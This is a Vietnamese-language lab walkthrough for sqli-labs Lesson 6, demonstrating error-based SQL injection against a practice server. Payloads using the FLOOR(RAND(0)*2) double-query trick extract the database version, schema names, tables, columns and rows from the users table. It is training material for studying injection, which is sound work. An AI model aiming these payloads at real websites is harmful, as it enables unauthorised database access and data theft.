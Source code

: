 # Một số việc làm với được lesson-6.md
Sau khi đăng nhập vào lesson6

![](../images/lesson6/screen.png)

Đề bài có yêu cầu nhập id 
```
 Please input the ID as parameter with numeric value 
```
Kết quả sau khi nhập giá trị ID 

![](../images/lesson6/screen_1.png)

- Thêm một vài ký tự đăc biệt để nó show ra lỗi và giúp ta biết được là DB loại nào 
```
192.168.80.225/sqli-labs/Less-6/?id=1"
```

![](../images/lesson6/screen_10.png)

- Hiển thị version của DB 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_2.png)

## Chúng ta sẽ sử dụng error based để có thể tìm hiểu về DB của nó 
1. Hiển thị danh sách DB 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_3.png)

- Do nó chỉ hiện thị một dòng nên chúng ta sẽ phải sử dần limit để có thể hiển thị được tất cả các DB đã có.
- Tên của DB là `information_schema` còn `:1` Chỉ là ký tự được thêm vào để có thể hiển thị ra lỗi 

2. Hiển thị table của một DB nào đó đã biết tên 
- Ví dụ Chúng ta sẽ show table trong DB security 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_4.png)

- Chúng ta sẽ sửa limit để có thể thấy từng table trong DB. Example: ta thay `limit 0,1` thành `limit 1,1` 

![](../images/lesson6/screen_5.png)

- Chúng ta có thể  hiển thị tên bảng của DB khác bằng cách đổi tên DB. Ví dụ ta đổi tên DB security thành mysql 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='mysql' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_6.png)

4. Hiển thị tên cột trong một bảng 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_7.png)

- Tương tự chúng ta phải tăng limit lên dần để có thể biết được hết tất cả thông tin của bảng mà ta đã chọn 
- Nếu muốn tìm đến các bảng khác ta sẽ thay tên của các bảng 

5. Show dữ liệu trong một bảng 
- Ví dụ ta show dữ liệu của cột `id` trong bảng `users` 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select id from security.users limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson6/screen_8.png)

tương tự ta muốn biết dữ liệu trong bảng nào thì ta sẽ thay câu lệnh truy vấn và tăng dần limit để có thể biết được hết 

